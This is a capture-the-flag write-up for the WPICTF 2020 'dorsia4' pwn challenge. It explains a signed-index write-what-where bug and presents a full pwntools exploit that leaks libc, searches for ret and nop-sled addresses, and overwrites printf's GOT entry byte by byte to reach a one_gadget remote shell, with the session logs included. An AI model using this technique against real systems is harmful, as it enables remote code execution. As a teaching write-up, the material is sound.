

# WPICTF 2020

## dorsia4

> 400
>
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The fourth card.
>
> `nc dorsia4.wpictf.xyz 31337 or 31338 or 31339`
> 
> made by: awg
>  
> [libc.so.6](libc.so.6) [nanowrite](nanowrite) 

Tags: _pwn_ _write-what-where_ _got_ _remote shell_


### Introduction

I did not finish this challenge before the end of the CTF.  My theory was sound, however, I missed a crucial bit (disclosed on Discord _after_ the CTF), that enabled me to finish my exploit:


THAT!!! is what I missed.  I'm writing this walkthrough as way to remind myself to _try harder_.

**UPDATE (less than 24 hours later):** I already knew my code didn't catch all nopsleds to `ret`, `printf`, `dprintf`, and `gadget`, but since I had success, I didn't worry about it.  Then my OCD kicked in, and I decided to refactor that part of the code, and now, guess what?  It works without `dprint`, ~60% of the time.  Instead of completely redoing this walkthrough, see the end for an _alternative ending_.

> Too long? Bored? Then click [exploit.py](exploit.py) and [exploit2.py](exploit2.py) (_alternative ending_).


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


#### Roll the film ([dorsia.webm](../dorsia.webm)), _yet again -- last time_



This time the verbal hints are _write-what-where_ and _libc_.

Yet another legit fuckup.  A fuckup I have to admit I've probably done.  The `if(i>69)` comparison is _signed_. IOW, you can write _backwards_ with negative array indexes.

So, what's (_backwards_ from `a`) up there?

> For brevity I'm not going to dump out everything, I recommend you look at this in Ghidra yourself.

```
                             _GLOBAL_OFFSET_TABLE_                                        _elfSectionHeaders::00000590(*)  
        00104000 f0 3d 00        addr       00003df0
                 00 00 00 
                 00 00
                             PTR_00104008                                    XREF[1]:     00101020(R)  
        00104008 00 00 00        addr       00000000
                 00 00 00 
                 00 00
                             PTR_00104010                                    XREF[1]:     00101026  
        00104010 00 00 00        addr       00000000
                 00 00 00 
                 00 00
                             PTR_printf_00104018                             XREF[1]:     printf:00101030  
        00104018 10 50 10        addr       printf                                           = ??
                 00 00 00 
                 00 00
...

        0010405f                 ??         ??
                             d                                               XREF[4]:     Entry Point(*), main:001011be(*), 
                                                                                          main:001011e8(R), 
                                                                                          main:001011e8(R)  
        00104060                 int        ??                                               nanowrite.c:4

...

        0010407f                 ??         ??
                             a                                               XREF[3]:     Entry Point(*), main:001011f8(*), 
                                                                                          main:001011ff(W)  
        00104080                 char[69]   ??                                               nanowrite.c:4
        001040c5                 ??         ??
        001040c6                 ??         ??
```

Above you can see the global `a` at offset `0x00104080`, above that the global `d`, and at the top of the RW address space, the RW part of the GOT.  If you look at the `checksec` output above you'll notice `Partial RELRO` meaning that some of the GOT can be changed.  That is the target, specifically `printf`.

```
char a[69];
int i, d;
void main()
{
    char b[69]={0};
    for(;;) {
        printf("%p giv i b\n",system+765722);
        scanf("%i %x",&i,&d)
        if(i>69)
            break;
        a[i]=d;
    }
}
```

_Why `printf`?_  It's really our only option.  We cannot overwrite `scanf` because we need that repeatedly to _write-what-where_.  So that leaves `printf`.

> That `char b[69]={0};` is a bit curious, and I speculate was added to put NULLs on the stack to support some simple gadgets.

The challenge is that loop only writes one byte at a time, then calls `printf`.  If any single byte change to the address of `printf` in the GOT results in bullshit code, we get a SIGSEGV--game over.

The challenge is finding a list of addresses that are safe to call, i.e. `ret`, `printf`, and the post-CTF revealed `dprintf` (_goddamnit_) _in order_.

Once the last byte is put in place, we get a shell.

To make life a bit easier, for free, we get the version of libc and the location of `system`, that can then be used to find the base of libc for use with a gadget.

So, the exploit is pretty clear, using a negative value for `i` write _backwards_ into the GOT and _safely_ change `printf` byte-by-byte until we reach a tested gadget.  Easy, _right?_

> To test a gadget, just use GDB, set a breakpoint, change the GOT by hand.  The gadget I used from `one_gadget libc.so.6` was `0x4f322`.


### Exploit

#### Attack Plan

1. Get `system` leak and compute the addresses of `printf`, `dprintf`, and the gadget
2. Find a list of all the "safe" libc addresses
3. Create a graph
4. Compute the shortest path to the gadget
5. _write-what-where_ the exploit
6. Get a shell, get the flag


#### Get `system` leak and compute the addresses of `printf`, `dprintf`, and the gadget

```python
#!/usr/bin/python3

from pwn import *
import networkx as nx
import time

binary = ELF('./nanowrite')
#p = process('./nanowrite')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('dorsia4.wpictf.xyz',31337)
libc = ELF('libc.so.6')

_ = p.recvline().split()[0]

system = int(_,16) - 765772
print("system:  " + hex(system))
baselibc = system - libc.symbols['system']
print("libc:    " + str(hex(baselibc)))
printf  = baselibc + libc.symbols['printf']
print("printf:  " + str(hex(printf)))
dprintf = baselibc + libc.symbols['dprintf']
print("dprintf: " + str(hex(dprintf)))
gadget  = baselibc + 0x4f322
print("gadget:  " + str(hex(gadget)))
```

From the _card_, `printf("%p giv i b\n",system+765722);` just leaks `system` and some nonsense we do not care about.  Computing the locations of `system`, `printf`, `dprintf`, and the gadget is pretty straight forward.


#### Find a list of all the "safe" libc addresses

```python
nops = [
0x90,
0x6690,
0x0f1f00,
0x0f1f4000,
0x0F1F440000,
0x660F1F440000,
0x0F1F8000000000,
0x0F1F840000000000,
0x660F1F840000000000,
0x662e0f1f840000000000
]

addrs = []
code = open('libc.so.6','rb').read()
t=time.time()
print("\ncomputing safe addresses...",end="")
for i in range(len(code)):
    if code[i] == 0xc3 or i == libc.symbols['dprintf'] or i == libc.symbols['printf'] or i == 0x4f322:
        addrs.append((baselibc + i) & 0xFFFFFF)
        j = i
        while True:
            for k in range(len(nops)-1,-1,-1):
                if code[j-k-1:j] == nops[k].to_bytes(k+1,byteorder='big'):
                    addrs.append((baselibc + j-k-1) & 0xFFFFFF)
                    break
            else:
                break
            j = j-k-1
print(int(time.time() - t),end="")
print(" seconds")
```

> This is where I failed.  Getting this far (identifying the vuln, targeting `printf`, and testing the gadget) took minutes and I thought I was minutes away from a solve.  Well, nope.
>
> For starters I only looked for `ret` (`0xc3`) and single byte `nop` sleds before `ret`.  Minutes before closing it had occurred to me to also search for multibyte `nop`, however, IIRC, there were none before any `ret`.  
> 
> `dprint` (_goddamnit_).

This code reads in all the bytes from the provided `libc.so.6`, and then searches for any `ret` statements or known good addresses.  The assumption is that any `ret` is a safe place to call.

If a match is found, it is added to the `addrs` list, and then looks back for single and multibyte `nop` sleds leading to that address (required or this fails).  If found, then they are also added to `addrs`.  (There's probably a super sexy regex that will do this all for me as a single expression.)

This search takes about 1 second to complete.


#### Create a graph

```python
t=time.time()
print("building graph...",end="")
g = nx.Graph()
for i in range(len(addrs)):
    for j in range(i+1,len(addrs)):
        n = addrs[i] ^ addrs[j]
        if n & 0xffff == 0:
            g.add_edge(addrs[i], addrs[j])
            continue
        if n < 0x10000 and n & 0xff == 0:
            g.add_edge(addrs[i], addrs[j])
            continue
        if n < 0x100:
            g.add_edge(addrs[i], addrs[j])
            continue
print(int(time.time() - t),end="")
print(" seconds")
```

Leveraging `networkx` a graph is built by checking every pair for a single byte difference (_O(n<sup>2</sup>)_).

This takes about 12 seconds.


#### Compute the shortest path to the gadget

```python
try:
    _ = nx.shortest_path(g,source=(printf & 0xFFFFFF),target=(gadget & 0xFFFFFF),weight='weight')
except:
    print("\nno path for you!\n")
    sys.exit(1)

print("\npath found (len: " + str(len(_)) + "):\n")
for i in _:
    print(hex(i))
print()      
```

Again, leveraging `networkx`, the shortest path (Dijkstra) is computed from `printf` to our gadget by changing one byte at a time.  There is a 1/8 chance you'll get a `no path for you!` exception.  That is the nature of ASLR.  There's ~4% chance you'll get a SIGSEGV with a valid path.  Also the length of the path varies.  For the lulz I did 1000 tests (locally) with the following results:

```
# sed 's/SIGSEGV.*/SIGSEGV/' test1000.out | egrep "(path|SIG|WPI|dorsia4)" | sort | uniq -c | sort -r -n
   1000 [*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    839 b'WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}\n'
    773 path found (len: 14):
    123 no path for you!
     54 path found (len: 21):
     50 path found (len: 18):
     37 [*] Process './nanowrite' stopped with exit code -11 (SIGSEGV
```

Expect an 84% chance of getting the flag.

There's probably enough data in [test1000.out.gz](test1000.out) to find the address(es) that is causing the SIGSEGVs, but at this point it is not that interesting of a problem.


#### _write-what-where_ the exploit

```python
for i in range(1,len(_)):
    for j in range(3):
        if (_[i-1] ^ _[i]) & (0xFF << j*8) != 0:
            b = (_[i] & (0xFF << j*8)) >> j*8
            print("put " + str(hex(b)) + " in " + str(j))
            p.sendline(str(hex(0x100000000 - (binary.symbols['a'] - binary.got['printf']) + j)) + " " + str(hex(b)))
            break
print()
```

Finally.  This will loop through the found path, determine the byte and the position and then finally input into `scanf` the address of the byte to be changed (`0x100000000 - (binary.symbols['a'] - binary.got['printf']) + j`) and the byte.

> I should have replaced that inner loop with 3 `if` statements for readability.


#### Get a shell, get the flag

```python
p.interactive()
```

Just type `cat flag.txt`.


#### Output

```
# ./exploit.py
[*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done
[*] '/pwd/datajerk/wpictf2020/dorsia4/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system:  0x7f69251ad440
libc:    0x7f692515e000
printf:  0x7f69251c2e80
dprintf: 0x7f69251c3180
gadget:  0x7f69251ad322

computing safe addresses...1 seconds
building graph...12 seconds

path found (len: 14):

0x1c2e80
0x1c3180
0x1c3171
0x283171
0x283183
0x280e83
0x280ecf
0x2800cf
0x280087
0x1a0087
0x1a1a87
0x1a1ac9
0x1ad3c9
0x1ad322

put 0x31 in 1
put 0x71 in 0
put 0x28 in 2
put 0x83 in 0
put 0xe in 1
put 0xcf in 0
put 0x0 in 1
put 0x87 in 0
put 0x1a in 2
put 0x1a in 1
put 0xc9 in 0
put 0xd3 in 1
put 0x22 in 0

[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -l
total 28
-r-xr-x--- 1 ctf ctf    42 Apr 16 00:54 flag.txt
-r-xr-x--- 1 ctf ctf 19288 Apr 17 09:57 nanowrite
-r-xr-x--- 1 ctf ctf    88 Apr 16 01:00 run_problem.sh
$ cat flag.txt
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```


#### Flag

```
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```


### _Alternative Ending_

While there are some other minor changes to [exploit2.py](exploit2.py) the meat of the change is in the _computing safe address..._ section:

```python
def nopsled(addr):
    a = []
    for i in range(len(nops)-1,-1,-1):
        if code[addr-i-1:addr] == nops[i].to_bytes(i+1,byteorder='big'):
            a.append(addr-i-1)
            a += nopsled(addr-i-1)
    return a

addrs = []
code = open('libc.so.6','rb').read()
t=time.time()
print("\ncomputing safe addresses...",end="")
for i in range(len(code)):
    if code[i] == 0xc3 or i == libc.symbols['printf'] or i == gadget:
        addrs.append((baselibc + i) & 0xFFFFFF)
        addrs += [((baselibc + x) & 0xFFFFFF) for x in nopsled(i)]
print(int(time.time() - t),end="")
print(" seconds")
```

Using recursion and checking all possible options it is now possible without adding `libc.symbols['dprintf']` to the list of safe address to solve this challenge.

After 1000 runs, here's the stats:

```
# sed 's/SIGSEGV.*/SIGSEGV/' test1000c.out | egrep "(path|SIG|WPI|dorsia4)" | sort | uniq -c | sort -r -n
   1000 [*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    605 b'WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}\n'
    369 no path for you!
    357 path found (len: 21):
    274 path found (len: 19):
     26 [*] Process './nanowrite' stopped with exit code -11 (SIGSEGV
```

The previous code could not find a path ~1/8th of the time.  The newer version without `dprintf` added as a safe address is worse at ~3/8ths making the likelihood of a flag ~60%.  `SEGSEGV`s are down as well, but proportional to the number of good paths, so, no surprise.

The paths are also completely different without `dprintf`, implying there was never a path with the previous code that did not bounce through `dprintf`.

This is the solution I was working for before the end of the CTF.  Sadly I just failed to find every nopsled.


#### Output

```
# ./exploit2.py
[*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done
[*] '/pwd/datajerk/wpictf2020/dorsia4/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system:  0x7e0e3d0b8440
libc:    0x7e0e3d069000
printf:  0x7e0e3d0cde80

computing safe addresses...0 seconds
building graph...11 seconds

path found (len: 21):

0xcde80
0xcde73
0xc7973
0xc793f
0x17793f
0x179a3f
0x179a50
0x179950
0x179990
0x17ad90
0x18ad90
0x18ad3b
0x18be3b
0x18be9f
0x18a69f
0x18a6e4
0xba6e4
0xba66a
0xb7d6a
0xb7d22
0xb8322

put 0x73 in 0
put 0x79 in 1
put 0x3f in 0
put 0x17 in 2
put 0x9a in 1
put 0x50 in 0
put 0x99 in 1
put 0x90 in 0
put 0xad in 1
put 0x18 in 2
put 0x3b in 0
put 0xbe in 1
put 0x9f in 0
put 0xa6 in 1
put 0xe4 in 0
put 0xb in 2
put 0x6a in 0
put 0x7d in 1
put 0x22 in 0
put 0x83 in 1

[*] Switching to interactive mode
$ cat flag.txt
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```
